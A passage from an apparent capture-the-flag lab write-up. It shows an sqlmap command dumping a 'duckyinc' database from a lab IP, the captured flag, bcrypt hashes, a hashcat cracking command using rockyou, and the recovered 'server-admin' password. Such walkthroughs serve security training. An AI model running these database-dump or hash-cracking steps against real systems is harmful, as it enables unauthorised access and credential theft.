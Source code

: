 
Let's read the duckyinc one:

```
sqlmap -u "http://10.10.38.213/products/1" -D duckyinc --dump --batch
```

![Pasted image 20250609134256.png](../../IMAGES/Pasted%20image%2020250609134256.png)

We got our first flag: 

```
thm{br3ak1ng_4nd_3nt3r1ng}
```


![Pasted image 20250609134438.png](../../IMAGES/Pasted%20image%2020250609134438.png)

We got some hashes, we can try getting them and cracking them with hashcat:

```
$2a$08$GPh7KZcK2kNIQEm5byBj1umCQ79xP.zQe19hPoG/w2GoebUtPfT8a
$2a$12$LEENY/LWOfyxyCBUlfX8Mu8viV9mGUse97L8x.4L66e9xwzzHfsQa
$2a$12$22xS/uDxuIsPqrRcxtVmi.GR2/xh0xITGdHuubRF4Iilg5ENAFlcK
```

Now:

```
hashcat -m 3200 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
```

![Pasted image 20250609134802.png](../../IMAGES/Pasted%20image%2020250609134802.png)

This is the password for the `server-admin` user:

```
server-admin:inuyasha
```
